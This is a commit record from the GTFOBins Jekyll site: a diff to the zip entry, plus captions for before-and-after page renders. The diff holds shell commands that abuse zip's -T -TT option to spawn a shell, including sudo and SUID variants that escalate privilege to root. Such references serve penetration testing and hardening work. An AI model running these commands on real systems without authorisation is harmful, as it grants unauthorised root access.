

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/zip.md, in a window 1280 px wide. Shown: the top 823 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Simplify zip and add suid-limited

```diff
--- a/_gtfobins/zip.md
+++ b/_gtfobins/zip.md
@@ -1,11 +1,15 @@
 ---
 functions:
   execute-interactive:
-    - code: echo "/bin/sh" > /tmp/run.sh
-            chmod +x /tmp/run.sh
-            zip z.zip * -T -TT /tmp/run.sh
+    - code: |
+        zip /tmp/x.zip /etc/hosts -T -TT 'sh #'
+        rm /tmp/x.zip
   sudo-enabled:
-    - code: echo "/bin/sh" > /tmp/run.sh
-            chmod +x /tmp/run.sh
-            sudo zip z.zip * -T -TT /tmp/run.sh
+    - code: |
+        sudo zip /tmp/x.zip /etc/hosts -T -TT 'sh #'
+        sudo rm /tmp/x.zip
+  suid-limited:
+    - code: |
+        ./zip /tmp/x.zip /etc/hosts -T -TT 'sh #'
+        sudo rm /tmp/x.zip
 ---
```
